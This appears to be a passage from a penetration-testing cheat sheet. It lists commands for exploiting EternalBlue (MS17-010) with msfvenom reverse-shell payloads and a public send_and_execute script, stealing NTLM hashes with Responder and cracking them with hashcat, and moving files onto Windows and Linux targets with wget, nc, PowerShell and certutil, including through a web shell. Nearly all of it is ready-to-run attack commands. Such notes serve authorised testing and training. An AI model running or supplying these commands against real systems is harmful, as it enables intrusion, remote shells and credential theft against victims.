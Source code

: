 #### Eternal Blue
``` bash
#https://github.com/helviojunior/MS17-010
#Generate payload in exe format and use the send_and_execute.py
msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=IP LPORT=PORT -f exe -o payload.exe
python2 /opt/MS17-010/send_and_execute.py TARGET_IP payload.exe
# If this does not work, use the paylaod created by the following commands
msfvenom -p windows/x64/shell_reverse_tcp -a x64 LHOST=IP LPORT=443 -f raw -o sc_x64_payload.bin
nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
```

### Responder hash stealing
set responder
```
responder -I tun0
```
To launch the attack remotely, use `file://IP/file` instead of http/smb etc

To launch the attack locally (in a windows host), use `net use Y: \\KALI_IP\share`

crack the captured hash with hashcat mode 5600

## 3. File Transfer
### Linux target
```bash
## HTTP
# Kali side
python3 -m http.server 80
# Target side
wget/curl KALI_IP/FILE
## nc
# Receiver
nc -lvnp PORT > FILE
# Sender
nc -nv Receiver_IP PORT < FILE
```

### Windows Target
#### HTTP
```bash
# Kali side
python3 -m http.server 80
```
```powershell
# powershell way
powershell iwr http://KALI_IP/FILE -outfile .\FILE
# Certutil cmd
certutil.exe -urlcache -f http://KALI_IP/FILE OUTPUT_PATH
# if via web shell
cmd.exe /c certutil.exe -urlcache -f http://KALI_IP/FILE OUTPUT_PATH
```
